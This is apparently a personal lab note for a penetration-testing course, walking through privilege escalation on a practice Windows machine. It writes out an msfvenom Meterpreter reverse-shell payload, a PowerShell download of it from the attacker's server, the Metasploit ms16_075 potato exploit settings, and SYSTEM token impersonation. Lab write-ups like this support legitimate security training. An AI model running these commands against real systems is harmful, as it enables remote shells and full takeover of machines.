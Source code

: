 Got initial foothold as `jeeves\kohsuke`[[PNPT/WPE/Impersonation and Potato/Initial Foothold|Initial Foothold]]

# Checking Privileges
---
- `whoami /priv`
	- These two look cool:
	- ![[Pasted image 20250415150752.png]]

# Meterpreter Shell
---
Note: **we can use metasploit's web delivery as well**
- `msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.19 LPORT=9002 -f exe -o reverse.exe`
- Not able to upload, so needed to get a powershell shell
	- I was not able to run powershell commands or open powershell from command prompt for some reason so used base64 encoded powershell reverse shell
		- ![[Pasted image 20250415153541.png]]

- Generate meterpreter file:
	- `msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.19 LPORT=9002 -f exe -o reverse.exe`
- Start python3 server:
	- `python3 -m http.server`
- Transfer using powershell
	- `Invoke-WebRequest 10.10.14.19:8000/reverse.exe -OutFile reverse.exe`
- Start metasploit and run to get shell:
	- ![[Pasted image 20250415153655.png]]

# Metasploit Exploit Suggester
---
- `multi/recon/local_exploit_suggester`
	- ![[Pasted image 20250415155046.png]]


# ms16_075_reflection attack
---
- `use exploit/windows/local/ms16_075_reflection`
- `set lhost tun0`
- `set payload windows/x64/meterpreter/reverse_tcp`
- `set lport 9005`
- `set session 1`
- `run`
	- ![[Pasted image 20250415155855.png]]
	- `load incognito`
	- `list_tokens -u`
	- `impersonate NT AUTHORITY\\SYSTEM`
- Note: **This should have worked, but did not, so I used this instead:**
	- **`use exploit/windows/local/ms16_075_reflection_juicy`**
- ![[Pasted image 20250415162105.png]]

- ![[Pasted image 20250415162121.png]]

[[Alternate Data Streams]]